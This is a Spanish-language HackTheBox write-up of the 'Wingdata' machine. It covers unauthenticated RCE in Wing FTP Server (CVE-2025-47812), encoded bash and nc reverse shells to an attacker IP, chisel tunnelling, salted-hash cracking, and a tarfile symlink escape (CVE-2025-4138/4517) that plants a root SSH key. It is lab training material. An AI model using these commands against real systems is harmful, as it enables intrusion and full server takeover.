

+++
title = "HackTheBox - Wingdata"
draft = false
description = "Resolución de la máquina Wingdata"
tags = ["HTB", "Linux", "Easy", "WingFTP", "CVE", "Tar", "SSH Key"]
summary = "OS: Linux | Dificultad: Easy | Conceptos: WingFTP, CVE Público, Tarfiles"
categories = ["Writeups"]
showToc = true
date = "2026-02-16T00:00:00"
showRelated = true
+++

* Dificultad: `easy`
* Tiempo aprox. `~5.5h`
* **Datos Iniciales**: `10.129.4.246`

### Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:
```bash
nmap -sVC -sT -Pn -n -p22,80 10.129.4.246      
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-15 11:20 -0500
Nmap scan report for 10.129.4.246
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Did not follow redirect to http://wingdata.htb/
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nada en UDP
```

## Puerto 80
Al entrar al puerto 80, encontramos una página web que habla sobre compartición de archivos:
> "*At Wing Data Solutions, we’re redefining how teams share and protect data online. Our encrypted platform combines speed, simplicity, and enterprise-grade security — so you can transfer files with total confidence, anywhere in the world.*"

Varios de los botones que aparecen no llevan a ningún sitio, salvo el que dice **`Client Portal`**, que nos lleva a `ftp.wingdata.htb`.

> De nuevo, podíamos imaginar que existía un subdominio dado que en nmap se nos mostraba que la máquina hacía uso de vhosts (`Did not follow redirect to http://wingdata.htb/`), lo que hacía probable que existiesen más (si no, para qué serviría usar un vhost principal `wingdata.htb`?).

Antes de entrar a `ftp.wingdata.htb`, probamos a enumerar otros vhosts.
```bash
gobuster vhost --url http://wingdata.htb --wordlist /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt --append-domain --xs 301
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
ftp.wingdata.htb Status: 200 [Size: 678]
```
No encontramos nada más, así que de momento añadimos `ftp.wingdata.htb` a `/etc/hosts` y entramos al subdominio.

## Subdominio `ftp`
Al entrar a `http://ftp.wingdata.htb`, encontramos un panel de login de WingFTP, con versión `Wing FTP Server v7.4.3`. Si buscamos esta versión, vemos que es vulnerable a [`CVE-2025-47812`](https://nvd.nist.gov/vuln/detail/CVE-2025-47812) (Unauthenticated RCE). 

> Según el NVD: *In Wing FTP Server before 7.4.4. the user and admin web interfaces mishandle '\0' bytes, ultimately allowing injection of arbitrary Lua code into user session files. This can be used to execute arbitrary system commands with the privileges of the FTP service (root or SYSTEM by default). This is thus a remote code execution vulnerability that guarantees a total server compromise. This is also exploitable via anonymous FTP accounts.*

Tenemos disponibles exploits públicos para esta vulnerabilidad, como [este](https://www.exploit-db.com/exploits/52347). Lo descargamos y ejecutamos:

```bash
$ python3 52347.py -u http://ftp.wingdata.htb 
[*] Testing target: http://ftp.wingdata.htb
[+] http://ftp.wingdata.htb is vulnerable!


$ python3 52347.py -u http://ftp.wingdata.htb -c "whoami"
[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'whoami' and username: 'anonymous'
[+] UID extracted: 984873a4a52f6bea507f0b0de77b31f2f528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: 984873a4a52f6bea507f0b0de77b31f2f528764d624db129b32c21fbca0cb8d6

--- Command Output ---
wingftp
----------------------
```

Mediante el RCE sacamos algo de info antes de intentar conseguir un reverse shell:
- Dump de `/etc/passwd`: usuarios interactivos `root`, `wingftp`, `wacky`.
- `wingftp` usa `bash` como shell, pero no tiene directorio en `/home`, sino en `/opt/wingftp`
- Ubicación del servidor web en `/opt/wftpserver`


### Intentos fallidos de Reverse Shell y SSH
Al principio intento conseguir un reverse shell mediante el RCE, pero parece no funcionar:
```bash
$ cat shell         
bash -c 'bash -i >& /dev/tcp/10.10.15.141/4444 0>&1'

$ cat shell | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xNDEvNDQ0NCAwPiYxJwo=

$ python3 52347.py -u http://ftp.wingdata.htb -c "echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xNDEvNDQ0NCAwPiYxJwo= | base64 -d | bash 2>/dev/null" 
...
--- Command Output ---
session expired
----------------------
```

Pasado un rato probando alternativas de revshell, pruebo a crear un par de claves de ssh, dado que, aunque el usuario `wingftp` no tiene directorio en `/home` sí tiene uno en `opt/wingftp`, es posible crearlas sin necesitar permisos sudo.
```bash
$ cat wingdataKEY.pub| base64
c3NoLWVkMjU1MTkgQUFBQUMzTnphQzFsWkRJMU5URTVBQUFBSUJmSDdibXZTbEVGWEZqd3piWSs4N0wwdjhPVS94TmlJQ1JxNUVMOFdJVzYga2FsaUBrYWxpCg==

$ python3 CVE-2025-47812.py -u http://ftp.wingdata.htb -c 'mkdir -p /opt/wingftp/.ssh && echo c3NoLWVkMjU1MTkgQUFBQUMzTnphQzFsWkRJMU5URTVBQUFBSUJmSDdibXZTbEVGWEZqd3piWSs4N0wwdjhPVS94TmlJQ1JxNUVMOFdJVzYga2FsaUBrYWxpCg== | base64 -d >> /opt/wingftp/.ssh/authorized_keys'

--- Command Output ---
session expired
----------------------
```
Tampoco parece funcionar. 

### Intento exitoso de Reverse Shell
Tras intentarlo un rato largo (~1h) intentando distintas configuraciones y evitando comillas y caracteres especiales, pruebo a hacer URL encoding de todo el payload:

1. Tomo `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.141 4444 >/tmp/f` y lo paso a base64:
```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.141 4444 >/tmp/f' | base64
```

2. Creo el payload con el reverse shell dentro en base64:
```bash
$ echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE1LjE0MSA0NDQ0ID4vdG1wL2YK | base64 -d | bash & disown
```

3.  Encodeo todo a url (con [URLEncoder]](https://www.urlencoder.org/)), queda:
```url
echo%20cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE1LjE0MSA0NDQ0ID4vdG1wL2YK%20%7C%20base64%20-d%20%7C%20bash%20%26%20disown
```

4. Mandamos el payload:
```bash
$ python3 52347.py -u http://ftp.wingdata.htb -c 'echo%20cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE1LjE0MSA0NDQ0ID4vdG1wL2YK%20%7C%20base64%20-d%20%7C%20bash%20%26%20disown'
...
```

5. Mientras tanto, en otra terminal:
```bash
$ penelope -i 10.10.15.141                                                    
[+] Listening for reverse shells on 10.10.15.141:4444 
➤ Main Menu (m) Payloads (p) Clear (Ctrl-L)  Quit (q/Ctrl-C)
[+] Got reverse shell from wingdata~10.129.5.169-Linux-x86_64 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/local/bin/python3!
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12

wingftp@wingdata:/opt/wftpserver$ whoami
wingftp
```

## Privesc
Al entrar, vemos que somos el usuario `wingftp`, que el flag de user está (seguramente) en `/home/wacky`, directorio para el que no tenemos permisos, y que nuestro directorio $HOME `/opt/wingftp` no existía.

Al ejecutar LinPEAS, aparecen bastantes datos marcados como **95%PE** que parecen ser falsos positivos y LinPEAS marcándose a sí mismo, así que nos centramos en los puertos abiertos:

```bash
tcp        0      0 0.0.0.0:43143           0.0.0.0:*               LISTEN      3555/wftpserver     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5466            0.0.0.0:*               LISTEN      3555/wftpserver     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      3555/wftpserver     
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::5466                 :::*                    LISTEN      3555/wftpserver
```

De aquí destacan 2 puertos: `0.0.0.0:5466` (según Internet, el panel de administración de WinFTP), Y `127.0.0.1:8080` (Un posible servidor web, aunque no lo sabemos).

### Puerto 5466 - Panel Admin
> *Aunque el 5466 está en escucha en todas las interfaces, es posible que haya un firewall bloqueando las conexiones entrantes de fuera a este puerto, pues en el análisis inicial no ha aparecido y si intentamos conectarnos ahora tampoco podemos, solo si hacemos curl desde la propia máquina a través del reverse shell.*

Como el directorio $HOME de nuestro usuario no existe y no tenemos permisos para crearlo, no podemos crear claves SSH y no podemos hacer port forwarding directo, aunque podemos intentar hacerlo de forma inversa abriendo un servidor ssh en nuestra máquina kali:

Desde la máquina vulnerable:
```bash
ssh -N -R 5466:127.0.0.1:5466 kali@10.10.15.141
# Se queda pillado y no pide contraseña
```
No parece funcionar, quizás por algún problema con el reverse shell no puede pedir la contraseña y no podemos hacer el túnel. Probamos con otra herramienta para lo mismo, [chisel](https://github.com/jpillora/chisel).

Movemos `chisel` a la máquina vulnerable:
```bash
wingftp@wingdata:/tmp/tests$ wget http://10.10.15.141:8000/chisel_bin
--2026-02-15 14:04:53--  http://10.10.15.141:8000/chisel_bin
Connecting to 10.10.15.141:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10240184 (9.8M) [application/octet-stream]
Saving to: ‘chisel_bin’

chisel_bin                                       100%[==========================================================================================================>]   9.77M  5.85MB/s    in 1.7s    

2026-02-15 14:04:55 (5.85 MB/s) - ‘chisel_bin’ saved [10240184/10240184]

wingftp@wingdata:/tmp/tests$ ls
chisel_bin
```

Ponemos nuestra máquina en escucha:
```bash
./chisel_bin server -p 8000 --reverse
2026/02/15 14:06:17 server: Reverse tunnelling enabled
2026/02/15 14:06:17 server: Fingerprint GpgQ+i2sPNotNKr/DctUl6X3k7GirxJDxNtXxQtuwhI=
2026/02/15 14:06:17 server: Listening on http://0.0.0.0:8000
2026/02/15 14:06:42 server: session#1: tun: proxy#R:5466=>5466: Listening
```
Y conectamos desde el servidor:
```bash
wingftp@wingdata:/tmp/tests$ chmod +x chisel_bin 
wingftp@wingdata:/tmp/tests$ ./chisel_bin client 10.10.15.141:8000 R:5466:127.0.0.1:5466
2026/02/15 14:06:42 client: Connecting to ws://10.10.15.141:8000
2026/02/15 14:06:42 client: Connected (Latency 38.505876ms)
```

Y aquí llegamos al panel de admin.



Necesitamos credenciales, así que las buscamos en el dispositivo. Tras una búsqueda, encontramos los archivos `admins.xml`, `anonymous.xml`, `john.xml`, `maria.xml`, `steve.xml` y `wacky.xml`:
```bash
wingftp@wingdata:/opt/wftpserver$ grep -r '</Password>' 
Data/_ADMINISTRATOR/admins.xml:        <Password>a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba</Password>
Data/1/users/maria.xml:        <Password>a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03</Password>
Data/1/users/steve.xml:        <Password>5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca</Password>
Data/1/users/wacky.xml:        <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
Data/1/users/anonymous.xml:        <Password>d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca</Password>
Data/1/users/john.xml:        <Password>c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10</Password>
```

WingFTP usa SHA256, la intentamos crackear con `jtr` y desde CrackStation, pero no da resultados:
```bash
$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 
Using default input encoding: UTF-8
Loaded 6 password hashes with no different salts (Raw-SHA256 [SHA256 512/512 AVX512BW 16x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2026-02-15 14:18) 0g/s 35858Kp/s 35858Kc/s 71716KC/s 02122271335..*7¡Vamos!
Session completed.
```

> Pasadas unas horas, se me ocurre que (dado que no había avanzado nada más) posiblemente no hubiésemos podido crackear las contraseñas porque había un salt a la hora de hashear que no habíamos visto (y que quizás aplicaba para todas las contraseñas por igual, por eso no salía explícitamente en el hash de cada usuario).

Buscando en los archivos, encuentro lo siguiente:
```bash
wingftp@wingdata:/opt/wftpserver/Data/1$ grep "Salting" settings.xml 
    <EnablePasswordSalting>1</EnablePasswordSalting>
    <SaltingString>WingFTP</SaltingString>
```
Tenemos el salt `WingFTP`, tenemos los hashes, posiblemente ahora podamos crackearlos, aunque necesitamos saber cómo se aplica el salt al hashear. Hay varios formatos válidos en jtr, lo normal es que sea `salt,hash` o `hash,salt`. Como, para probar, jtr necesita que le demos hash y salt en el formato `HASH$SALT`, creamos el archivo:
```bash
$ sed -i 's/$/$WingFTP/' hashes

$ cat hashes
a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba$WingFTP
...[SNIP]...

$ john hashes --format=dynamic_62 --wordlist=/usr/share/wordlists/rockyou.txt
Loaded 6 password hashes with no different salts (dynamic_62 [sha256($p.$s) 512/512 AVX512BW 16x])
Press 'q' or Ctrl-C to abort, almost any other key for status
!#7Blushing^*Bride5 (?)     
2g 0:00:00:00 DONE (2026-02-15 15:52) 2.325g/s 16678Kp/s 16678Kc/s 83401KC/s !JD021803..*7¡Vamos!
Session completed.
```

Y tenemos la contraseña `!#7Blushing^*Bride5`, que corresponde al hash `32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca`, del usuario `wacky`.

Dado que, como hemos visto al enumerar, este usuario es el que también existe como usuario del SO, probamos a conectarnos por SSH por si se reutilizan contraseñas.

### Conexión por SSH, Wacky
```bash
$ ssh wacky@ftp.wingdata.htb
The authenticity of host 'ftp.wingdata.htb (10.129.5.169)' can't be established.
ED25519 key fingerprint is: SHA256:JacnW6dsEmtRtwu2ULpY/CK8n/8M9tU+6pQhjBG3a4w
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'ftp.wingdata.htb' (ED25519) to the list of known hosts.
wacky@ftp.wingdata.htb's password: 

wacky@wingdata:~$ 
```

Como wacky, ejecutamos `sudo -l` y vemos lo siguiente:
```bash
wacky@wingdata:~$ sudo -l
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

Al mirar el archivo `.py`,  vemos que se trata de un programa que permite restaurar configuraciones de clientes desde un archivo `.tar` validado.

#### Script `restore_cackup_clients.py`
Vemos que el script hace lo siguiente:
1. Primero establece una serie de rutas
```python
BACKUP_BASE_DIR = "/opt/backup_clients/backups"
# directorio donde deben existir los backups.
STAGING_BASE = "/opt/backup_clients/restored_backups"
# directorio base donde se restaurarán los archivos.
```
2. Define dos argumentos obligatorios
- `-b` / `--backup`: Nombre del archivo backup
- `-r` / `--restore`: Nombre del directorio donde se restaurará el contenido

3. Valida nombre del backup, formar ruta absoluta del backup y verificar que existe
```python
if not validate_backup_name(args.backup):
# El nombre debe tener el siguiente formato: "backup_<Integer>.tar", con <Integer> != 0
...

# Ruta absoluta
backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)

# Ver si existe
if not os.path.isfile(backup_path): ...
```

4. Valida restore_dir
```python
if not validate_restore_tag(tag):
        print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
        sys.exit(1)
# restore_dir debe tener el siguiente formato: "restore_<tag>", con <tag> siendo de 1-24 caracteres y solo con letras, dígitos y guiones bajos (_).
```

5. Crea directorio de staging (si no existe todavía)
```python
staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
# P.ej: /opt/backup_clients/restored_backups/restore_wacky7

# Crear directorio, si existe da igual (no da error).
os.makedirs(staging_dir, exist_ok=True)
```

6. Extrae el archivo `.tar`
```python
with tarfile.open(backup_path, "r") as tar:
    tar.extractall(path=staging_dir, filter="data")
    ...
```

En resumen:
- Tienes un archivo en `/opt/backup_clients/backups/`, p.ej `backup_1234.tar`, con configuraciones previamente guardadas.
- El archivo `.tar` se extrae en la carpeta de Staging: `/opt/backup_clients/restored_backups/<restore_dir>`, p.ej `restore_wacky/`

Si miramos el programa, vemos que podríamos usar `/opt/backup_clients/restored_backups/` y crear un enlace simbólico ahí que apuntase a, p.ej, `/root/.ssh/`, para luego crear un tarball con nuestra clave pública ssh y hacer que el programa lo extrayese. El único inconveniente con esto es que no tenemos permisos de escritura en `/opt/backup_clients/restored_backups/`.

Como no podemos hacer mucho, miramos si el problema está en python más que en el script en sí:
```bash
wacky@wingdata:/opt/backup_clients/restored_backups$ python3 --version
Python 3.12.3
```

Si hacemos una búsqueda rápida:
> *Python 3.12.3 contains multiple vulnerabilities in the tarfile module that allow attackers to modify files or permissions outside the extraction directory, which can lead to privilege escalation.*

Las principales: [`CVE-2024-12718`](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-12718), [`CVE-2025-4517`](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2025-4517), [`CVE-2025-4138`](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2025-4138)
- `CVE-2024-12718`: Si el módulo `tar` usa `filter='tar'`, podemos cambiar permisos de archivos, en este caso se usa `'data'` así que lo descartamos.
- `CVE-2025-4517` y `CVE-2025-4138` usan prácticamente la misma técnica de explotación,

#### CVE-2025-4138 / CVE-2025-4517

> Tenemos disponible un [PoC público](https://github.com/DesertDemons/CVE-2025-4138-4517-POC) que explica las vulnerabilidades, podemos basarnos en él para construir uno que haga lo mismo:

La explotación consiste en lo siguiente:
En un python completamente vulnerable, si estuviésemos limitados a un directorio específico y no pudiésemos subir arriba de forma relativa (..) o absoluta (/), sería posible crear un `.tar` con un symlink que, p.ej, apuntase a `/`, para que luego todo lo que se descomprimiese del `.tar`, se crease en una ruta a partir del symlink, es decir, a partir de `/` (p.ej, copiar nuestra clave pública a `/root/authorized_keys`).

El problema que tiene esto es que en nuestro script, el filtro `data` en:
```python
...
tar.extractall(path=staging_dir, filter="data")
```
vería, tras resolver nuestro symlink malicioso, que la ruta real es `/` (o `..` si lo usásemos) y nos indicaría que no está permitido realizar esa operación porque está fuera de nuestros límites.

Esto lo podemos aprovechar usando un problema que tiene Python en esta versión:
- El SO tiene un límite llamado `PATH_MAX` (Normalmente, según el PoC, de 4096 bytes), cuando Python intenta averiguar a dónde va un archivo realmente, usa `os.path.realpath()`, que resuelve los enlaces.
- Si creamos un string que, al resolverse, supera los 4096B, `os.path.realpath()` deja de resolver al saturarse.
- El filtro `data` mira la ruta "a medio resolver", como no ha terminado aún, no apunta a `/` y no hay problema, se la pasa al kernel para que escriba el archivo.
- El kernel tiene límites más amplios, cuando recoge la ruta, resuelve la ruta completa, y el archivo escapa.

Con el objetivo de copiar nuestra clave pública a `/root/.ssh/authorized_keys`, primero creamos el par de claves:
```bash
$ ssh-keygen -t rsa                         
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./wingdataKey
Enter passphrase for "./wingdataKey" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./wingdataKey
Your public key has been saved in ./wingdataKey.pub

$ cat wingdataKey.pub
ssh-rsa AAA...[SNIP]...q/0V9E= kali@kali
```

Ahora tomamos un PoC encargado de hacer esto y lo ejecutamos
```bash
$ python3 exploit_gen.py --preset ssh-key --payload ./wingdataKey.pub --tar-out backup_999.tar
[+] Exploit tar: backup_999.tar
[+] Target: /root/.ssh/authorized_keys
[+] Payload size: 563 bytes

$ cp backup_999.tar /opt/backup_clients/backups/

$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_999.tar -r restore_test
[+] Backup: backup_999.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_test
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_test
```

Desde nuestra máquina:
```bash
$ ssh -i wingdataKey root@wingdata.htb
Linux wingdata 6.1.0-42-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30) x86_64

Last login: Mon Feb 16 11:17:46 2026 from 10.10.15.141
root@wingdata:~# 
```
Y somos root.
